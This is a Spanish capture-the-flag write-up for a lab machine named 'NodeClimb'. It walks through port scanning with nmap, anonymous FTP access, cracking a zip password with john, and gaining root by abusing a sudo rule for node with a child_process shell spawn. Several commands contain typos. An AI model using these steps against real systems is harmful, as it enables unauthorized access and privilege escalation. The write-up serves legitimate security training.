### Informe de máquina *"NodeClib"*



Vamos a realizar la maquina "NodeClimb", como siempre vamos a empezar asignando permisos de ejecución al archivo `auto_deploy.sh` eh inicializamos la maquina con `sudo ./autodeploy ` `nodeclimb.tar`




Realizamos un testeo de conexión con el comando `ping`.



Y realizamos un escaneo de puertos abiertos con la herramienta `nmap`, el comando usado fue:

```bash
nmap -sS --min-rate 5000 -p- -vvv -Pn -n 172.17.0.2 -oG nmap
```

- `nmap` → Comando para ejecutar herramienta nmap.
- `-sS` → Escaneo SYN ("Stealth Scan"). Envía paquetes SYN sin completar la conexión TCP (más rápido y sigiloso que -sT).
- `--min-rate 5000` → Fuerza a nmap a enviar al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-p-` → Escanea todos los 65535 puertos (en lugar de solo los más comunes).
- `-vvv` → Modo muy detallado (muestra más información en pantalla mientras se ejecuta).
- `-Pn` → No realiza detección de host (asume que el host está activo y no envía ping previo).
- `-n` → No resuelve nombres de dominio (evita consultas DNS, lo que acelera el escaneo).
- `172.17.0.2` → IP objetivo a escanear.
- `-oG nmap` → Guarda los resultados en formato "greppable" en un archivo llamado nmap.



Encontramos los puertos `21` y `22` abiertos, procedemos a realizar un escaneo más detallada de estos.

```bash
nmap -p21,22 -sC -sV -O 172.17.0.2
```

- `nmap` → Ejecuta la herramienta de escaneo de red Nmap.

- `-p21,22` → Especifica los puertos que queremos escanear. En este caso 21 y 22.

- `-sC` → Ejecuta scripts de detección predeterminados

- `-sV` → Detección de versiones de servicios.

- `-O` → Detección del sistema operativo.

- `172.17.0.2` → Especifica la dirección IP del objetivo a escanear.



Detectamos que el servicio FTP permite realizar un logueo como usuario Annonymous, intentamos conectarnos de esa forma:



Se pudo realizar la conexión, nos encontramos un archivo zip, procedemos a descargarlo:

```bash
wget ftp://172.17.0.2/secretopicaron.zip --no-pasive-ftp
```



Al intentar descomprimir el archivo zip, vemos que nos solicita una contraseña, intentaremos buscar la  contraseña por fuerza bruta haciendo uso de la herramienta `john`

Primero obtengamos el hash del archivo con el comando:

```bash
zip2john secretopicaron.zip > zip.hash
```

Ahora realizamos el ataque de fuerza bruta con el comando:

```bash
john --worldlists=/usr/share/worldlists/rockyou.txt zip.hash
```



Identificamos que la contraseña del zip es "password1", procedemos a descomprimir el archivo con `unzip`, encontramos dentro un archivo llamado "password.txt" con el contenido `mario:laKontraseñAmasmalotaHdelbarrioH`
Asumimos que es la contraseña del usuario `mario`



Accedemos con el usuario `mario` y con `sudo 'l` vemos que permisos de ejecución sudo posee este usuario.



Observamos que el usuairo `mario` puede ejecutar el comando `node` con privilegios, pero solo hacia el archivo `/home/mario/script.js`.



Investigamos un poco de cómo podemos ejecutar una shell con el comando node.
Con el comando `nano` editamos el archivo `script.js` de la siguiente forma

```
const { spawn } = require("child_process");
spawn("/bin/sh", { stdio: "inherit" });
```

Ahora procedemos a ejecutar el comando node junto con el script haciendo uso de altos privilegios:

```bash
sudo /usr/bin/node /home/mario/script.js
```

Y ejecutando el comando `whoami` podemos observar que ahora somos usuario `root`




